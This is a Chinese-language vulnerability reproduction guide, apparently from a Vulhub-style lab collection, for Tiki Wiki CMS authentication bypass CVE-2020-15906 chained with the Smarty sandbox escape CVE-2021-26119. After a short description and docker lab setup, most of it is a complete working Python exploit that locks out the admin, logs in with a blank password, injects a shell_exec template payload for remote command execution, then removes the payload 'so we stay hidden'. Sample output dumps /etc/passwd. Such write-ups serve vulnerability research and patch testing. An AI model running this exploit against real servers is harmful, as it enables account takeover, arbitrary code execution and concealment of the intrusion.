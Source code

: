 # Tiki Wiki CMS Groupware 认证绕过漏洞 CVE-2020-15906

## 漏洞描述

Tiki Wiki CMS Groupware或简称为Tiki（最初称为TikiWiki）是一种免费且开源的基于Wiki的内容管理系统和在线办公套件。在如下这些版本21.2, 20.4, 19.3, 18.7, 17.3, 16.4前存在一处逻辑错误，管理员账户被爆破60次以上时将被锁定，此时使用空白密码即可以管理员身份登录后台。

参考链接：

- https://info.tiki.org/article473-Security-Releases-of-all-Tiki-versions-since-16-3
- https://github.com/S1lkys/CVE-2020-15906
- http://packetstormsecurity.com/files/159663/Tiki-Wiki-CMS-Groupware-21.1-Authentication-Bypass.html
- https://srcincite.io/pocs/cve-2021-26119.py.txt

## 环境搭建

Vulhub执行如下命令启动一个Tiki Wiki CMS 21.1：

> 需要通过`dos2unix docker-entrypoint.sh`命令将其转换成为unix格式文件。

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/tiki-login_scr.php`可以看到其欢迎页面。

## 漏洞复现

我们可以使用https://srcincite.io/pocs/cve-2021-26119.py.txt中的[POC](https://github.com/vulhub/vulhub/blob/master/tikiwiki/CVE-2020-15906/poc.py)进行复现。该POC先使用CVE-2020-15906绕过认证，获取管理员权限；再使用Smarty的沙盒绕过漏洞（CVE-2021-26119）于后台执行任意命令：

```
python poc.py your-ip:8080 / id
```

![image-20220302153818245](./images/202203021538346.png)

注意，受到漏洞原理的影响，执行该POC会导致管理员账户被锁定。

## 漏洞POC

```python
#!/usr/bin/env python3
"""
Tiki Wiki CMS GroupWare Serverside Template Injection Remote Code Execution Vulnerability
This is a demonstration of CVE-2021-26119 (Smarty Template Engine template_object Sandbox Escape PHP Code Injection)
Written by: Steven Seeley of Qihoo 360 Vulcan Team
Exploit tested against: Tiki Wiki 20.3 (Tarazed)

Bug 1: CVE-2020-15906
    - An unauthenticated user can bypass the authentication by bruteforcing the admin account > 50 times and login with a blank password
    - Works on: <= 21.1 (UY_Scuti)
    
Bug 2: CVE-2021-26119 
    - An admin user can trigger a serverside template injection and gain remote code execution by escaping the sandbox of the Smarty Template Engine by leveraging the 'template_object' property
    - Works on: <= 22.2 (Corona_Borealis) and impacts Smarty <= 3.1.38 (latest)

# Notes

- *WARNING* This exploit will lock out the administrator account
- It was possible in older versions of Tiki Wiki (including 20.3) that you could:

  1. Edit Smarty templates with a user that had the 'tiki_p_edit_templates' privilege, but Tiki clued into this and has since disabled this 'feature' by default, see using [Risky preferences](https://doc.tiki.org/Risky-Preferences)
  2. Disable the Smarty sandbox entirely by unchecking the "Smarty Security" checkbox in the general security tab which is no longer possible.

  However it's still possible for an admin (or user with the 'tiki_p_admin' permission assigned) to add Smarty template syntax to the 'feature_custom_html_head_content' option under [Customization](http://doc.tiki.org/Customization) in the [Look and Feel](http://doc.tiki.org/Look-and-Feel) control panel menu. This is enough for attackers to escape the Smarty sandbox leveraging either CVE-2021-26119 or CVE-2021-26120 and execute arbitrary remote code.

# Example

researcher@incite:~/tiki$ ./poc.py
(+) usage: ./poc.py <host> <path> <cmd>
(+) eg: ./poc.py 192.168.75.141 / id
(+) eg: ./poc.py 192.168.75.141 /tiki-20.3/ id

researcher@incite:~/tiki$ ./poc.py 192.168.75.141 /tiki-20.3/ "id;uname -a;pwd;head /etc/passwd"
(+) blanking password...
(+) admin password blanked!
(+) getting a session...
(+) auth bypass successful!
(+) triggering rce...

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux target 5.8.0-40-generic #45-Ubuntu SMP Fri Jan 15 11:05:36 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
/var/www/html/tiki-20.3
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

# References

- Maximilian Barz's poc at https://github.com/S1lkys/CVE-2020-15906
"""

import requests
import sys
import re

def auth_bypass(s, t, d):
    h = { "referer" : t }
    d["ticket"] = get_ticket(s, "%stiki-login.php" % t)
    d["pass"] = "" # auth bypass is here
    r = s.post("%stiki-login.php" % t, data=d, headers=h)
    r = s.get("%stiki-admin.php" % t)
    assert ("You do not have the permission that is needed" not in r.text), "(-) authentication bypass failed!"

def black_password(s, t, d):
    uri = "%stiki-login.php" % t
    # setup cookies here
    s.get(uri)
    ticket = get_ticket(s, uri)
    # crafted especially so unsuccessful_logins isn't recorded
    for i in range(0, 51):
        r = s.post(uri, d)
        if("Account requires administrator approval." in r.text):
            print("(+) admin password blanked!")
            return
    raise Exception("(-) auth bypass failed!") 

def get_ticket(s, uri):
    h = { "referer" : uri }
    r = s.get(uri)
    match = re.search('class="ticket" name="ticket" value="(.*)" \/>', r.text)
    assert match, "(-) csrf ticket leak failed!"
    return match.group(1)

def trigger_or_patch_ssti(s, t, c=None):
    # CVE-2021-26119
    p = { "page": "look" }
    h = { "referer" : t }
    bypass = "startrce{$smarty.template_object->smarty->disableSecurity()->display('string:{shell_exec(\"%s\")}')}endrce" % c
    d = {
        "ticket" : get_ticket(s, "%stiki-admin.php" % t),
        "feature_custom_html_head_content" : bypass if c else '',
        "lm_preference[]": "feature_custom_html_head_content"
    }
    r = s.post("%stiki-admin.php" % t, params=p, data=d, headers=h)
    r = s.get("%stiki-index.php" % t)
    if c != None:
        assert ("startrce" in r.text and "endrce" in r.text), "(-) rce failed!"
        cmdr = r.text.split("startrce")[1].split("endrce")[0]
        print(cmdr.strip())

def main():
    if(len(sys.argv) < 4):
        print("(+) usage: %s <host> <path> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.141 / id"% sys.argv[0])
        print("(+) eg: %s 192.168.75.141 /tiki-20.3/ id" % sys.argv[0])
        return
    p = sys.argv[2]
    c = sys.argv[3]
    p = p + "/" if not p.endswith("/") else p
    p = "/" + p if not p.startswith("/") else p
    t = "http://%s%s" % (sys.argv[1], p)
    s = requests.Session()
    print("(+) blanking password...")
    d = {
        'user':'admin', 
        'pass':'trololololol',
    }
    black_password(s, t, d)
    print("(+) getting a session...")
    auth_bypass(s, t, d)
    print("(+) auth bypass successful!")
    print("(+) triggering rce...\n")
    # trigger for rce
    trigger_or_patch_ssti(s, t, c)
    # patch so we stay hidden
    trigger_or_patch_ssti(s, t)

if __name__ == '__main__':
    main()
```

